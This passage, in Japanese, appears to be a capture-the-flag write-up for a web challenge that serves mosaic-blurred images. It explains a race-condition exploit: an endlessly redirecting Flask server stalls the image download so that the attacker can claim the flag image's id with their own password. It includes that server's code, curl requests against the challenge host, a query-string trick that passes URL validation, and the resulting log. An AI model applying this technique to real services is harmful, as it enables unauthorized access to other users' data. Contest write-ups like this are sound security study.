 ```python
            image_bytes = res.content
        elif file:
            image_bytes = io.BytesIO()
            file.save(image_bytes)
            image_bytes = image_bytes.getvalue()

        if len(image_bytes) > app.config['MAX_CONTENT_LENGTH']:
            raise Exception('image too large')

        obfs_image_bytes = util.mosaic(image_bytes)

        with open(os.path.join(FILE_SAVE_PATH, id), 'wb') as f:
            f.write(image_bytes)
        with open(os.path.join(FILE_SAVE_PATH, id+'-mosaic'), 'wb') as f:
            f.write(obfs_image_bytes)
    except Exception as e:
~~~
```
何とかして`convert_and_save`関数の処理時間を引き延ばし、`__add_image`関数の`db.add_image(id_, mimetype, password)`の後にファイルが上書きされるようにできないだろうか。  
ここで`requests.get(url, timeout=3)`に注目する。  
画像がURLとして指定されている場合にダウンロードする処理だ。  
一見すると3sで必ずタイムアウトするように思えるが、実はサイトがリダイレクトを繰り返した場合にはリダイレクトするごとに3s待つ。  
つまり、以下のように無限にリダイレクトさせるサーバを立てれば`convert_and_save`関数は終わらず、ファイルの上書きも行われない。  
```python
import time
from flask import Flask, redirect

app = Flask(__name__)

@app.route("/")
def infinite_redirect():
    time.sleep(2)
    return redirect("/", code=302)

if __name__ == "__main__":
    app.run(debug=False, host="0.0.0.0", port=80)
```
これでファイルの上書き前に自分の画像のidをDBに追加できる。  
URLにはバリデーションがあるが`?satoki.png`のようなクエリを末尾につければ解決できる。  
一連の流れを以下の通り行う。  
まずは`/trial`からフラグ画像？のURLを取得し、画像取得リクエストを行って10s待つ。  
これでidが分かるフラグ画像？の実体はそのままに、DBからidが削除される。  
```bash
$ curl 'http://35.200.21.52/trial'
{"url":"http://35.200.21.52/62762aea975942938272bed15863e1e9"}
$ curl -s 'http://35.200.21.52/62762aea975942938272bed15863e1e9' | grep 'Hello IMPOSTER 😜'
$ curl -s 'http://35.200.21.52/62762aea975942938272bed15863e1e9' | grep 'Hello IMPOSTER 😜'
    <p>Hello IMPOSTER 😜</p>
```
次にリダイレクトさせるサーバを起動し、以下のようなリクエストを問題サーバへPOSTする。  
ここで、image_urlにリダイレクトさせるサーバ、idには先ほどのフラグ画像？、パスワードを設定する。  
```bash
$ curl -X POST http://35.200.21.52/ -F 'image_url=http://s4t.pw/?satoki.png' -F 'id=62762aea975942938272bed15863e1e9' -F 'password=satoki'
<!DOCTYPE html>
~~~
```
`convert_and_save`関数は終わらないためリダイレクトさせるサーバにはアクセスが断続的に行われる。  
```bash
$ python3 app.py
~~~
35.200.21.52 - - [24/Mar/2024 05:59:01] "GET /?satoki.png HTTP/1.1" 302 -
35.200.21.52 - - [24/Mar/2024 05:59:03] "GET / HTTP/1.1" 302 -
35.200.21.52 - - [24/Mar/2024 05:59:06] "GET / HTTP/1.1" 302 -
```